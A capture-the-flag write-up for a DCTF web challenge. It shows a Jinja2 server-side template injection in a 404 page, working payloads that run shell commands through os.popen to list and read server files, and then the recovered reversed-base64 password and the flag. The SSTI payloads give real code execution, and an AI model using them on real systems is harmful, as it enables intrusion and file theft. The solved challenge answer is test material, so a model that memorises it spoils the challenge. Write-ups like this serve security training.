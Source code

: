 ## Injection (200 Points)

### Problem
```
Our local pharmacy exposed admin login to the public, can you exploit it?

http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/
```

### Solution
The URL from the challenge description brings us to a very simple login screen. Naturally, I tried an awful lot of SQL Injection permutations first before giving up and searching for alternative injection exploits.
Any time we submit creds, we get redirected to `/login` and are greeted with the message:

`Oops! Page login doesn't exist :(`

I came across `Server Side Template Injections`, and found a [handy guide](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) of sample exploits in various languages.

I worked through a lot of them on the list and finally found something interesting when I attempted hitting the endpoint `/{{7*'7'}}` and the server returned `Oops! Page 7777777 doesn't exist :(`. So it looks like that the server evaluated our expression that we got from a `Jinja2` exploit guide. I don't know much about `Jinja2` but the guide says `Jinja2 is a full featured template engine for Python`. Let's see what else we can do with it.. Maybe read the filesystem?

`/{{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}`

```
<h1>Oops! Page total 24
dr-xr-xr-x    1 root     root          4096 May 14 01:33 .
drwxr-xr-x    1 root     root          4096 May 16 21:25 ..
-r--r--r--    1 root     root          1180 May 14 01:32 app.py
dr-xr-xr-x    1 root     root          4096 May 14 01:32 lib
dr-xr-xr-x    1 root     root          4096 May 14 01:32 static
dr-xr-xr-x    1 root     root          4096 May 14 01:32 templates
 doesn't exist :(</h1>
```

I tried catting `app.py`, but I got nothing interesting other than a `You are getting closer` message.

I then tried to `ls lib/` and noticed a `security.py` file existed there. Let's cat that by sending the following:

`/{{config.__class__.__init__.__globals__['os'].popen('cat lib/security.py').read()}}`

```
validate_login(username, password):
    if username != 'admin': return False

    valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ'

    return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password
```

Looks like we've got it, we just have a small task to complete. `[::-1]` means reverse so we just need to reverse `valid_password` and Base64 Decode.


Flag: `dctf{4ll_us3r_1nput_1s_3v1l}`
